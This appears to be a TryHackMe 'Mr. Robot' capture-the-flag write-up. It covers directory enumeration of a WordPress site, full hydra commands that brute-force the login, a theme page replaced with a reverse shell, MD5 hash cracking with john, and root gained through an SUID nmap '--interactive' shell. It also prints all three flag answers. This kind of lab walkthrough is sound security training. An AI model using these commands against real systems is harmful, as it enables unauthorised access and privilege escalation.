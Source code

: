 ```yaml
---
title: Mr. Robot
date: 2022-04-29 17:00:00 +500
categories: [thm, medium-machines]
tags: [bruteforce,hash]    # TAG names should always be lowercase
---
```




## Hack the machine

### What is key 1?

As usual, I'll start with the Nmap scan:

```
PORT    STATE  SERVICE  VERSION
80/tcp  open   http     Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
443/tcp open   ssl/http Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
```

we got two web servers, one with HTTP protocol and the other with HTTPS, looking into them they're the same, a page with the Mr. Robot series theme, but nothing really to look into.

let's perform a gobuster scan, to see if there's a hidden directory

```terminal
gobuster dir -u 10.10.133.98 -w /usr/share/dirb/wordlists/common.txt
```

```
/0                    (Status: 301) [Size: 0] [--> http://10.10.133.98/0/]
/admin                (Status: 301) [Size: 234] [--> http://10.10.133.98/admin/]
/atom                 (Status: 301) [Size: 0] [--> http://10.10.133.98/feed/atom/]
/audio                (Status: 301) [Size: 234] [--> http://10.10.133.98/audio/]
/blog                 (Status: 301) [Size: 233] [--> http://10.10.133.98/blog/]
/css                  (Status: 301) [Size: 232] [--> http://10.10.133.98/css/]
/dashboard            (Status: 302) [Size: 0] [--> http://10.10.133.98/wp-admin/]
/favicon.ico          (Status: 200) [Size: 0]
/feed                 (Status: 301) [Size: 0] [--> http://10.10.133.98/feed/]
/image                (Status: 301) [Size: 0] [--> http://10.10.133.98/image/]
/Image                (Status: 301) [Size: 0] [--> http://10.10.133.98/Image/]
/images               (Status: 301) [Size: 235] [--> http://10.10.133.98/images/]
/index.html           (Status: 200) [Size: 1188]
/index.php            (Status: 301) [Size: 0] [--> http://10.10.133.98/]
/intro                (Status: 200) [Size: 516314]
/js                   (Status: 301) [Size: 231] [--> http://10.10.133.98/js/]
/license              (Status: 200) [Size: 309]
/login                (Status: 302) [Size: 0] [--> http://10.10.133.98/wp-login.php]
/page1                (Status: 301) [Size: 0] [--> http://10.10.133.98/]
/phpmyadmin           (Status: 403) [Size: 94]
/rdf                  (Status: 301) [Size: 0] [--> http://10.10.133.98/feed/rdf/]
/readme               (Status: 200) [Size: 64]
/robots               (Status: 200) [Size: 41]
/robots.txt           (Status: 200) [Size: 41]
/rss                  (Status: 301) [Size: 0] [--> http://10.10.133.98/feed/]
/rss2                 (Status: 301) [Size: 0] [--> http://10.10.133.98/feed/]
/sitemap              (Status: 200) [Size: 0]
/sitemap.xml          (Status: 200) [Size: 0]
/video                (Status: 301) [Size: 234] [--> http://10.10.133.98/video/]
/wp-admin             (Status: 301) [Size: 237] [--> http://10.10.133.98/wp-admin/]
/wp-content           (Status: 301) [Size: 239] [--> http://10.10.133.98/wp-content/]
/wp-includes          (Status: 301) [Size: 240] [--> http://10.10.133.98/wp-includes/]
/wp-cron              (Status: 200) [Size: 0]
/wp-config            (Status: 200) [Size: 0]
/wp-links-opml        (Status: 200) [Size: 227]
/wp-load              (Status: 200) [Size: 0]
/wp-login             (Status: 200) [Size: 2606]
/wp-mail              (Status: 500) [Size: 3064]
/wp-settings          (Status: 500) [Size: 0]
/wp-signup            (Status: 302) [Size: 0] [--> http://10.10.133.98/wp-login.php?action=register]      
/xmlrpc.php           (Status: 405) [Size: 42]
/xmlrpc               (Status: 405) [Size: 42]
```

quite an output we got, with a couple of interesting things, now we know the site is built on WordPress, and the robots file was readable, and we now have two more file directories

* fsocity.dic
    
    which is a dictionary that we may need to use for later brute-forcing

* key-1-of-3.txt

    which is the first flag
    
> 073403c8a58a1f80d943455fb30724b9

### What is key 2?

now with that dictionary, I'll try to brute force the WordPress login page, to do that I'll use hydra.

this page has a major flaw because it tells us when the username is invalid, so we will brute force the username first until we found a valid username and then try with the password.

the syntax will be:
```
hydra -l <USER> -p <Password> <IP Address> http-post-form “<Login Page>:<Request Body>:<Error Message>”
```

* USER

    In this case, we will brute force the username so this would be the dictionary

* Password

    This can be anything it doesn't matter

* Login Page

    this is the directory of the login page, in this case '/wp-login.php'

* Request body

    You can get this by opening the console of your browser, and in the network tab viewing the POST request to wp-login.php after entering anything and pressing login, in this case, I put in both username and password and this is the request body 'log=a&pwd=a&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.133.98%2Fwp-admin%2F&testcookie=1'.

    But we need two change the part where the username and password go through the request so hydra will know what to change. In the user put ^USER^ and the password ^PWD^.

    log=^USER^&pwd=^PWD^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.133.98%2Fwp-admin%2F&testcookie=1


* Error Message

    this is the message we got 'Invalid username.'


the final command would be this:

```terminal
hydra -L fsocity.dic -p 'a' 10.10.133.98 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.133.98%2Fwp-admin%2F&testcookie=1:Invalid username."
```

and we got
```
[80][http-post-form] host: 10.10.133.98   login: Elliot   password: a
```

now let's try to get the password for Elliot, we just need to change the user, password, and error message of the hydra command. And the flags also, if -l or -p are in lowercase it means that it's just one, and if they are in uppercase means that are multiple of: like a dictionary file.

```terminal
hydra -l Elliot -P fsocity.dic 10.10.133.98 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.133.98%2Fwp-admin%2F&testcookie=1:The password you entered for the username Elliot is incorrect." 
```

and the password is 'ER28-0652'

looking around there was not much around, so since we are an admin user I'll try to change one page to be a reverse shell, to do this I go to appearance, then editor, and you can change whatever .php file you'd like, in this case, I'll change the 404 page.
I'll use the pentest monkey reverse shell, set up a listener, and go to /wordpress/wp-content/themes/twentyfifteen/404.php, since the page we changed is from the theme twentyfiftteen.

and we got a shell!

we found a user called robot, in his home directory have two files, the second key, which we don't have permission to read, and a password.raw-md5 file which apparently has the credentials for this user, with the password encrypted, let's try to decrypt it.

the title of the file was very descriptive and tells us that is md5 raw encrypted, so I'll use hashcat with the fsocity.dic to decrypt it.

so it ended up not working, so I used john

```terminal
john --wordlist=fsocity.dic --format=Raw-MD5 encryptedpass
```

the password being: 'abcdefghijklmnopqrstuvwxyz'

now that we have access to the robot user, we can cat out the second key:

> 822c73956184f694993bede3eb39f959

### What is key 3?

now I guess all it's left to do is privilege escalation, I try with the tried and true sudo -l with no luck, then I search for SUID files and I saw something strange, Nmap.

In this part I went down a rabbit hole, in gtfobins I tried to follow the suid way of exploit where it said you can overwrite a file with sudo, so I tried many ways to change the /etc/shadow file to change the root user password with no luck.

The way to gain a root shell was actually quite easy 

```terminal
nmap --interactive
```

then

```
nmap> !sh
```

and we got ourselves a root shell, all it's left to do is to go read the third key in the /root directory

> 04787ddef27c3dee1ee161b21670b4e4
